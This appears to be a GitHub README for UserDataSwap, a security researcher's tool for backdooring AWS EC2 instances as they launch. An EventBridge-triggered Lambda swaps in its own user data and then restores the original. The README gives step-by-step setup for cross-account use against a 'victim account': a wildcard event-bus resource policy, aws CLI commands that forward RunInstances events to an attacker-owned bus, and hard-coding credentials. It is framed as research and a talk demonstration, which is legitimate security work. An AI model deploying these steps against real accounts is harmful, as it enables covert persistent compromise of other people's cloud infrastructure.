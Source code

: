 # UserDataSwap

User data swap is an example of an automated lambda function that runs that swaps out user data on RunInstance events. The original user data script is restored after ours is run.

This exists as an example of how an attacker could semi-covertly backdoor EC2 instances on creation. The API calls will stand out, but from the user's perspective the instance is simply taking longer to start up. This is a well known attack, only change to what I've seen elsewhere is adding Event Bridge and Lambda.

Currently there is a five minute delay between when the new instance comes up and when it is backdoored, this is to work around issues with bootstrapping at the moment. Hope to find another way to do this in the future, but we'll see.

## Wish List
* Play nicely with bootstrapping (User Data or the Terraform SSH provider) without adding a delay.
* Target individual instances or tags
* Configurable options for logging, commands run at boot, etc.

## Cross-Account Access

There is a fair amount of permissions required to deploy this, which is ok if you just want to test it out. To be useful it may make more sense to deploy in a seperate account then the one you're targeting, this way the initial set up only requires `events:PutRule` and `events:PutTargets` permissions in the victim account. I'll likely add support for this in the future, for now you can try the following to do this manually.

__WARNING__: This will allow any AWS account to run any action against the bus set up in the UserDataSwap account, probably best to set this part up in a account that isn't used for anything else. The permissive resource policy is one of the ways to get override the lack of permissions assigned to the the put-event rule to avoid needing iam:PassRole and an appropriate role already configured in the victim account. It may be possible to reduce these permissions, need to do more testing here though.

* In the UsereDataSwap account:
  * In the UserDataSwap lambda account create a new event bus named `run-instance-trigger` and give it the following resource policy.
    ```
    {
      "Version": "2012-10-17",
      "Statement": [{
        "Sid": "allow_account_to_put_events",
        "Effect": "Allow",
        "Principal": "*",
        "Action": "*",
        "Resource": "<this event bus arn>"
      }]
    }
    ```
  * Set up a rule to trigger the UserDataSwap function with the following event config.
    ```
    {
      "source": [
        "aws.ec2"
      ],
      "detail": {
        "eventSource": [
          "ec2.amazonaws.com"
        ],
        "eventName": [
          "RunInstances"
        ]
      }
    }
    ```
* In the victim account:
  * Create the run-instances event trigger:
    ```
    aws --profile victim-account events put-rule --name run-instance-trigger --state ENABLED --event-bus-name default --event-pattern '{
      "source": ["aws.ec2"],
      "detail": {      
        "eventSource": ["ec2.amazonaws.com"],
        "eventName": ["RunInstances"]
      }
    }'
    ```
  * Add a target to forward to the event-bus in the UserDataSwap account:
    ```
    aws events put-targets --rule run-instance-trigger --event-bus-name default --targets "Id"="1","Arn"="arn:aws:events:<region>:<attacker account #>:event-bus/run-instance-trigger"
    ```
* You should see the UserDataSwap triggered when a instance is created in the victim account now.
  * Update the lambda to hard code the credentials needed to make EC2 related calls in the vicitims account and deploy.

## More Info

For more info you can see my post on [Backdooring user data](https://blog.ryanjarv.sh/2020/11/27/backdooring-user-data.html)

## Related Attacks

For another similar attack with different pros/cons take a look at [EC2FakeIMDS](https://github.com/RyanJarv/EC2FakeImds). The talk and slides going over these two can be found on [my blog](https://blog.ryanjarv.sh/2020/12/04/deja-vu-in-the-cloud.html).

## Takeaway

What I was hoping to demonstrate is what I described as Cloud Malware in my talk doesn't need to be complex.

## Requirements

* AWS CLI already configured with Administrator permission
* [Docker installed](https://www.docker.com/community-edition)
* [Golang](https://golang.org)
* SAM CLI - [Install the SAM CLI](https://docs.aws.amazon.com/serverless-application-model/latest/developerguide/serverless-sam-cli-install.html)

## Setup process

### Installing dependencies & building the target 

```shell
make build
```

## Deployment

```bash
make deploy
```

### Testing

TODO
